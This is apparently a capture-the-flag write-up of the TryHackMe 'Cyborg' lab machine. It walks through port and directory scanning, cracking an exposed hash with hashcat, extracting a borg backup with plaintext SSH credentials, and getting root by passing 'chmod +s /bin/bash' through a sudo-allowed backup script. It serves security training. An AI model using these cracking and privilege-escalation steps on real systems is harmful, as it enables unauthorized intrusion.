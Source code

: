 ```yaml
---
title: Cyborg Machine TryHackMe
date: 2022-10-23 00:22:25 +0800
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


# Description

This machine will be pwned using hash decryption, borg software to download files and privilege escalation with bash scripting.

# Enumeration

after a first scan: This is reported to us from the nmap scan:

```ruby
 # Nmap 7.92 scan initiated Sat Oct 22 19:01:56 2022 as: nmap -p22,80 -sCV -oN targeted 10.10.131.6
Nmap scan report for 10.10.131.6
Host is up (0.061s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done at Sat Oct 22 19:02:18 2022 -- 1 IP address (1 host up) scanned in 21.75 seconds
```
# Exploitation

>So we will have to get into the target machine using ssh, since there is no other way.
{: .prompt-tip}

If we go to the page:

```shell
http://MACHINE_IP
```
We get no big deal, so lets run a dirbust scan, from which we get:

```ruby
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.104.12
[+] Method:                  GET
[+] Threads:                 128
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/10/23 22:32:12 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 312] [--> http://10.10.104.12/admin/]
/etc                  (Status: 301) [Size: 310] [--> http://10.10.104.12/etc/]  
```
Lets head to our new directories:

```shell
http://MACHINE_IP/admin
http://MACHINE_IP/etc
```
At the first link, we can see some interesting stuff, but lets go straight up to the Archive>Download part
![Desktop View](/assets/img/cyborg_download.png){: w="700" h="400"}

If we click on download, we get a file called archive.tar, which we can unzip using:

```shell
tar -xvf archive.tar
```
Now lets head to the /etc directory inside the web page, from where we get:

```shell
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```
>We will use this credentials to download the music_archive from the unzipped archive.tar
{: .prompt-tip}

First of all, lets try to unhash the password for music_archive. To do this, lets check its type:

```shell
❯ hash-id -f hash.txt
Hash: $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
  [+] MD5(APR)
```
Now that we know its type, we can unhash it using hashcat:

```shell
hashcat --force -m 1600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
From there, we can get the following password:

```shell
squidward
```
Now lets get the music_archive from the borg repository we just downloaded. To do this, cd to it and use the following command:

```shel
borg extract /path/to/repo::music_archive
```
We will be asked a password. Type in the one we got before: squidward 

Now we got a /home folder downloaded into the repository, from where we can extract this from the Documents directory:

```shell
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```
>Now we can use the password for the ssh service: alex@{VICTIM_IP}
{: .prompt-tip}

>If we cat the "user.txt", we can get the user flag
{: .prompt-info}

Its time to escalate some privilege, to do this, we will run this command:

```shell
sudo -l
```
From where we get the following output:

```bash
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
alex@ubuntu:~$ 
```
As we can see, we can run the backup.sh as alex user without being requiered a password, so lets check it:

```bash
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt


input="/etc/mp3backups/backed_up_files.txt"
#while IFS= read -r line
#do
  #a="/etc/mp3backups/backed_up_files.txt"
#  b=$(basename $input)
  #echo
#  echo "$line"
#done < "$input"

while getopts c: flag
do
        case "${flag}" in 
                c) command=${OPTARG};;
        esac
done



backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/so$

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd
```
From here, there is an interesting line:

```bash
while getopts c: flag
do
        case "${flag}" in 
                c) command=${OPTARG};;
        esac
done
```
From here we can understand that the parameter "c" will be executed. It means we can pass it as a bash command to become root, so lets do it:

```shell
sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"
```
Now we can run "bash -p" command and we will become root

>NOW WE CAN SUBMIT THE ROOT FLAG! CONGRATULATIONS, YOU MAKED IT TILL THE END
{: .prompt-tip}


